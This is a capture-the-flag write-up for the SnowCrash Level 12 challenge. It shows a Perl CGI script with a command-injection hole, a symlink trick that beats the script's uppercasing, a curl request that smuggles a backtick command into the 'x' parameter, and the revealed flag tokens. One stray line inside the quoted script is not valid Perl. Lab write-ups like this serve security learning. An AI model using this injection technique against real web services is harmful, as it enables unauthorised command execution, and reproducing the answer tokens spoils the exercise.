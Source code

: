 # SnowCrash Level 12

## Introduction
When we started the level, we found a `level12.pl` script:
```
#!/usr/bin/env perl
localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
## Exploitation
We easily understood that the security breach is
```@output = `egrep "^$xx" /tmp/xd 2>&1`;``` 

We attempted injections, but the regex turned our `ls` to `LS`, causing errors. After a day of research, we tried to execute `/bin/ls` and transfer the result to the error file of Apache in `/var/log/apache2/error.log`. We finally got an error: 
```
[Thu Feb 08 13:33:52 2024] [error] [client 127.0.0.1] /*/LS: not found
```
Then, we created a symbolic link between `/bin/ls` and `/tmp/LS`: `ln -s /bin/ls /tmp/LS`. We attempted to execute 

```
curl '127.0.0.1:4646/?x=`/*/ls%3E%262
```
This worked, and we got an `LS` in the error log of Apache.

## Obtaining the Token
We tried the same with `getflag` and finally got the flag! By reading 
```
/var/log/apache2/error.log
``` 
We found:
```
[Thu Feb 08 13:41:20 2024] [error] [client 127.0.0.1] Check flag. Here is your token: g1qKMiRpXf53AWhDaU7FEkczr
flag12@SnowCrash:~$ getflag
Check flag. Here is your token: fa6v5ateaw21peobuub8ipe6s
```

